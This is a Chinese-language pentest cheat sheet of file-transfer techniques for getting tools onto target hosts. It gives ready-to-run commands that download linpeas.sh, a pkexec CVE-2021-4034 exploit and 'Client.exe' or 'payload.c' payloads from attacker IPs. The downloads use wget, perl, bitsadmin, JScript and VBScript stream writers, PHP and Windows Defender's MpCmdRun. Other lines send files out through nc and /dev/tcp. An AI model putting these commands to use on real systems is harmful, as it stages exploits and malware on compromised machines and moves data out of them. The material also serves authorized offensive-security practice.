
## 文件下载命令快捷生成

[https://forum.ywhack.com/bountytips.php?download](https://forum.ywhack.com/bountytips.php?download)
## 使用Python开启http服务

发送端（在待传输文件所在目录执行）
```
python2 -m SimpleHTTPServer 8080
python3 -m http.server 8080
python2.7 -m SimpleHTTPServer 8080
```

接收端：
```
wget http://192.168.56.102:8080/linpeas.sh
wget http://192.168.56.102:8080/pkexec-cve-2021-4034
```

## nc

接收端操作：
```
nc -nlvp 9002 > 文件路径
```
发送端操作：
```
cat 文件路径 > /dev/tcp/192.168.56.102/9002
```

## SCP
```
scp -P 22 file.txt user@1.1.1.1:/tmp

scp -r /path/to/source_folder username@destination_server:/path/to/destination_folder
```
## rcync
```
rsync -avz /path/to/source_folder username@destination_server:/path/to/destination_folder
```
在这个命令中，`-avz` 选项意味着：
- `-a` 表示传输时保持文件属性，递归地传输目录，保持链接，保持权限等。
- `-v` 表示详细输出，您可以看到传输过程中的详细信息。
- `-z` 表示启用压缩传输，可以节省带宽


## perl

```
perl -MLWP::Simple -e 'die "下载失败" unless getstore("http://192.168.56.102/tools/linpeas.sh", "linpeas.sh")'
```

```
不支持https、ftp协议，php python带的服务器会出错
> bitsadmin /transfer n http://192.168.1.192/Client.exe  e:\1.exe
> bitsadmin /rawreturn /transfer getfile http://192.168.1.192/Client.exe e:\1.exe
> bitsadmin /rawreturn /transfer getpayload http://192.168.1.192/Client.exe e:\1.exe
> bitsadmin /transfer myDownLoadJob /download /priority normal "http://192.168.1.192/Client.exe" "e:\1.exe "
```
## FTP
```
> open 192.168.0.98 21
> 输入账号密码
> dir查看文件
> get file.txt
```
## js

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1; BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("1.exe");
```
```
> cscript /nologo 1.js http://192.168.1.192/Client.exe
```
## PHP
```
#!/usr/bin/php 
<?php $data = @file("http://192.168.1.192/Client.exe");
$lf = "1.exe";         
$fh = fopen($lf, 'w');         
fwrite($fh, $data[0]);         
fclose($fh); 
?>
```

## Python
```
python -c 'import urllib;urllib.urlretrieve("http://192.168.1.192/Client.exe","/path/to/save/1.exe")'
```

## Python3
```
python3 -c "import urllib.request; urllib.request.urlretrieve('https://192.168.56.102/tools/linpeas.sh', 'linpeas.sh')"
```
## vbs

```vb
Set Post = CreateObject("Msxml2.XMLHTTP")
Set Shell = CreateObject("Wscript.Shell")
Post.Open "GET","http://192.168.1.192/Client.exe",0
Post.Send()
Set aGet = CreateObject("ADODB.Stream")
aGet.Mode = 3
aGet.Type = 1
aGet.Open()
aGet.Write(Post.responseBody)
aGet.SaveToFile "C:\1.exe",2 
>cscript 1.vbs
Const adTypeBinary = 1
Const adSaveCreateOverWrite = 2
Dim http,ado
Set http = CreateObject("Msxml2.serverXMLHTTP")
http.SetOption 2,13056//忽略HTTPS错误
http.open "GET","http://192.168.1.192/Client.exe",False
http.send
Set ado = createobject("Adodb.Stream")
ado.Type = adTypeBinary
ado.Open
ado.Write http.responseBody
ado.SaveToFile "c:\1.exe"
ado.Close
```


## wget

```sh
wget http://192.168.1.192/Client.exe
wget –b后台下载
wget –c 中断恢复
```


## WindowsDefender

```powershell
C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0>MpCmdRun.exe -DownloadFile -url http://192.168.2.105:8000/payload.c -path c:\\users\\test\\desktop\\1.c
```
![image](https://minioapi.nerubian.cn/image/20250428142945025.png)
		
其他利用
![image](https://minioapi.nerubian.cn/image/20250428142938260.png)
![image](https://minioapi.nerubian.cn/image/20250428142934604.jpeg)
![image](https://minioapi.nerubian.cn/image/20250428142945400.jpeg)
